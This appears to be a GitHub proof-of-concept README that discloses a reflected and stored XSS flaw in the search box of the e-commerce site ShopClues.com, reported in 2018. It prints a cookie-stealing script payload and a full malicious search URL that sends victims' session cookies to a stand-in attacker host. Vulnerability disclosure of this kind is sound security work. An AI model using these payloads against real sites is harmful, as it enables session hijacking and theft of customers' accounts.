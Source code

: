 # Reflected-Stored-XSS-POC
This proof of concept is based on the reflected and stored XSS vulnerability on the Indian Ecommerce website 'ShopClues.com'. This vulnerability can cause session hijacking and stealing of customer's credentials via cookie hijacking. The issue was reported in the year 2018 and it took them more than 4 months to fix the bug. 

Vulnerability Description: 

Severity : Medium to Critical

Impact: User’s account and the stored data is compromised.
If the user is tricked into clicking on a malicious link from the shopclues.com domain, especially under the search parameter from the parent site, different malicious scripts can be executed. For e.g.  The link makes a request in the form of a search string which executes a script demanding the session cookies of the victim browser. The script can also be extended to redirect the victim bowser’s cookies to the attacker site which captures the cookies. 

<script>alert(location.href=”https://www.attackersite.com/cookie_steal.php?cookie=” + document.cookie)</script>                                                                                                                          
 
The above script when requested in the form as :

https://shopclues.com/search?q=<script>alert(location.href=”https://www.attackersite.com/cookie_steal.php?cookie=” + document.cookie)</script>

will bypass the firewall and xss auditor(In case of Google chrome browser) of the browser as the GET/POST request is made under the trusted network and domain.
The search box will not parse the script and will show no or relevant search results. But when the search box is cleared, the script is parsed in the search history . The XSS attack will be reflected until the search history is not cleared. This behaviour of the script is similar to persistent or stored XSS type.
The above script will first pop up an alert box displaying the cookies. The alert box will prevent the redirection script to execute. But when the victim travels to another tab or minimises  the tab , this alert box goes down and allows the redirection . The malicious webpage then grabs the victim’s cookies.The attacker can then replace the victim’s cookies and hijack the session. 

Reference : https://www.owasp.org/index.php/Cross-site_Scripting_(XSS),
https://www.owasp.org/index.php/Session_hijacking_attack,
https://www.owasp.org/index.php/Session_fixation 
